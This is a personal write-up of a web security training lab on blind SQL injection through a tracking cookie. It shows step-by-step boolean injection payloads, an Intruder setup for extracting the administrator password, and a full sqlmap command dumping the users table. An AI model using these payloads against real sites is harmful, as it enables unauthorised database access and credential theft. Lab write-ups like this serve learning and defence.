

# **Blind SQL injection with conditional responses**

So, this one is convoluted.

1.  Verify injecting the cookie value is possible:

```
Cookie: TrackingId=6b5sOoEwj1eDCyeO' AND '1'='1; session=xAZH3ZtYPNsK2aGRQ163xZniqQ2a69DY
```

The lab put a value that appears if the TrackingId worked, which was “Welcome Back!” beside the home and account links. This TrackingId returned the value so we know it’s working

2.  To double check we set the compared value to 2:

```
Cookie: TrackingId=6b5sOoEwj1eDCyeO' AND '1'='2; session=xAZH3ZtYPNsK2aGRQ163xZniqQ2a69DY
```

And this one does not add the “Welcome Back!” so we are sure now.

3.  Then we check the name of the users table:

```
TrackingId=6b5sOoEwj1eDCyeO' AND (SELECT 'a' FROM users LIMIT 1)='a
```

4.  Confirm username:

```
Cookie: TrackingId=6b5sOoEwj1eDCyeO' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

Got string so we confirm administrator user

5.  Now we need to confirm length of the password, using this query:

```
Cookie: TrackingId=zNNuTjrrAjDMoU7e' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>19)='a; session=Dfye5vUU6VlOyXOnWL7m7YO5huAId5Ob
```

I ran it until I got a correct length

6.  Now we are supposed to get the password, I run an intruder attack like this:



Payload 1: 1-20

Payload 2: a-z and 0-9

Password: wa1tf3meo8pbmepaopx7

I ended up scrapping this and used SQLMap <https://github.com/sqlmapproject/sqlmap>

```
sqlmap -u 'https://0a1800330329fcf1816d755100e70051.web-security-academy.net' --cookie='TrackingId=11KvC1Qp0FOjDsCe; session=856AapCigwH7BfHtEZzGSW6LWcqpxpNo' -p 'TrackingId' --param-filter='COOKIE' --dbs --os='linux' --level=5 --dump -T users
```
